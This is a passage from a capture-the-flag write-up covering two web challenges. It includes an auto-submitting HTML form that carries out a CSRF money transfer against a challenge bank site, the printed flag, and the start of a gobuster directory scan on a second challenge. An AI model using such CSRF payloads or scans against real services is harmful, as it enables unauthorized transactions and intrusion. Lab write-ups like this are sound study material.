On the site we can create an account or login, so we create an account and are redirected to a management page

On this page we can see our activity, send money, or contact our advisor. We can also buy the flag for 200€ but our account is empty

When we contact our advisor, we realize that he clicks on the links we send to him

We can try to execute a CSRF attack, so we will try to send money to our account from the account of our advisor

When we send money to an account, a POST request is send to `http://upcredit4.chall.malicecyber.com/transfer` with body `account=...&amount=...`

The next javascript payload can do this:
```html
<form action="http://upcredit4.chall.malicecyber.com/transfer" method="post" id="send_money_form">
    <input type="text" name="account" value="_5O_w-SNI"> <!--- our account -->
    <input type="number" name="amount" value="200">
</form>
<script>document.getElementById("send_money_form").submit();</script>
```

We host this script on a webserver and we send it url to out advisor

After a refresh, 200€ appear on our account and we can buy the flag !

The flag is: `W1nG4rD1um\L3v1os444!`

## Walter's Blog (100 points)
```
Description:

Un ancien stagiaire avait développé ce site web il y a plusieurs années.
Malheureusement, ce projet a mal été documenté et nous ne retrouvons plus les accès pour l'administrer...

Votre tuteur vous autorise à tout essayer pour récupérer les accès à ce service, soyez inventif !

Le flag est situé dans le fichier /flag.txt.

Mise à jour: Ne mettez pas flag{} pour valider l'épreuve.

Accès à l'épreuve:
URL: http://waltersblog3.chall.malicecyber.com/
```

On the website there is a minecraft blog written in html pages

After a deep inspection of the site, we found nothing

So we are going to try to see what we can find with gobuster:

```
$ gobuster dir -e -u http://waltersblog3.chall.malicecyber.com -w /usr/share/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://waltersblog3.chall.malicecyber.com
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Expanded:       true
[+] Timeout:        10s
===============================================================
2020/11/17 23:18:10 Starting gobuster
===============================================================
```